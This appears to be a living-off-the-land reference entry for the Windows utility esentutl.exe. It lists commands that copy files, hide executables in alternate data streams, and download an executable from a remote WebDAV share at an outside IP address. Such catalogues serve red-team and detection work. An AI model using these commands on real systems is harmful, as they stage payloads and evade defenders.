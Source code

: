 ## Esentutl.exe

* Functions: Copy, Download, Write ADS, Read ADS

```
esentutl.exe /y C:\folder\sourcefile.vbs /d C:\folder\destfile.vbs /o     
     
esentutl.exe /y C:\ADS\file.exe /d c:\ADS\file.txt:file.exe /o     
     
esentutl.exe /y C:\ADS\file.txt:file.exe /d c:\ADS\file.exe /o     
     
esentutl.exe /y \\82.221.113.85\webdav\file.exe /d c:\ADS\file.txt:file.exe /o     

esentutl.exe /y \\82.221.113.85\webdav\file.exe /d c:\ADS\file.exe /o     

esentutl.exe /y \\live.sysinternals.com\tools\adrestore.exe /d \\otherwebdavserver\webdav\adrestore.exe /o     
```

Acknowledgements:
* egre55 - @egre55

Code sample:
* 

Resources:
* https://twitter.com/egre55/status/985994639202283520

Full path:
```
c:\windows\system32\esentutl.exe
c:\windows\sysWOW64\esentutl.exe
```

Notes:



 
